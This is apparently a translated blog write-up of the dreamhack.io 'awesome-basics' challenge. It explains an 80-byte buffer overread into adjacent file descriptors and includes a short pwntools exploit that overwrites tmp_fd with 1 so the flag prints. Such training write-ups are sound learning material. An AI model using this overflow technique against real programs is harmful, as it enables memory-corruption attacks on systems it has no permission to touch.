


# dreamhack.io: awesome-basics

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224325145188). Translated and reformatted in English.

Looking at the code, it appears to be a typical bof that covers RIP and executes shellcode. Just looking at the key points:

char buf[80];

read(stdin_fd, buf, 0x80);

buf is 80 bytes, but read() reads 0x80 = 128 bytes. That is, a 48-byte overflow occurs.

I looked into the stack frame with gdb. Because bof needs an offset:

high address

────────────────────

rbp+0x08: saved RIP ← reached after 104 bytes

rbp : saved RBP

rbp-0x04 : stdin_fd

rbp-0x08 : stdout_fd

rbp-0x0c : flag_fd

rbp-0x10 : tmp_fd

rbp-0x11: end of buf

...

rbp-0x60: buf start ← read() input start

────────────────────

low address

There is a 50 byte offset from 0x60 to 0x10 in tmp_fd. In decimal, it is 80.

The reason for covering tmp_fd is that, in Linux/Unix, file descriptor number 1 is standard output (stdout).

I have this code in my program:

int stdout_fd = 1;

int tmp_fd;

tmp_fd = open("./tmp/flag", O_WRONLY);

write(stdout_fd, "Your Input: ", 12);

read(stdin_fd, buf, 0x80);

write(tmp_fd, flag, FLAG_SIZE);

write(tmp_fd, buf, 80);

Here write(fd, data, size) works like this.

write (where to write, what to write, how many bytes to write)

For example:

write(1, "hello\n", 6);

This means printing hello on the screen.

Linux programs basically start with the numbers below.

0 = stdin = input

1 = stdout = screen output

2 = stderr = error output

Therefore, if you cover tmp_fd with 1, the flag will be output.

from pwn import *
p = remote('host3.dreamhack.games', 14259)

payload = b'A'*80
payload += p64(1)

p.sendline(payload)

p.interactive()
